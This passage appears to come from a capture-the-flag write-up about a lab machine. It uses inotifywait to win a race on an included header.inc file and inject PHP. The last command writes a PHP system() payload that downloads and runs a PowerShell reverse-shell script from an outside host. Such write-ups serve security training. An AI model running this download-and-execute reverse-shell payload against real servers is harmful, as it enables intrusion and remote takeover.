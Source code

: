 Using `inotifywait` utility from inotify-tools with `-e` flag to monitor specific event.
```bash
-e|--event <event1> [ -e|--event <event2> ... ]
		Listen for specific event(s).  If omitted, all events are 
		listened for.

Events:
	close		file or directory closed, regardless of read/write mode
```

With that tool finally get php code executed on the server, only issue occurred is that there is some delay between 2 includes, after first closing and second opening of the file. For that i setup 2 event listener, first for closing and second for opening.
```bash
echo poorduck > header.inc; inotifywait -e close header.inc;inotifywait -e open header.inc;  echo '<?php echo "poorduck from php!";?>' > header.inc
```

![](/assets/img/posts/proper/smb-to-php.png)

Getting reverse shell with [PayloadsAllTheThings powershell payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell) and [nishang revshell ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)
```bash
echo poorduck > header.inc; inotifywait -e close header.inc; inotifywait -e open header.inc; echo "<?php system(\"powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.15.71/powerShellTcp.ps1')\");?>" > header.inc
```

![](/assets/img/posts/proper/rev-shell.png)

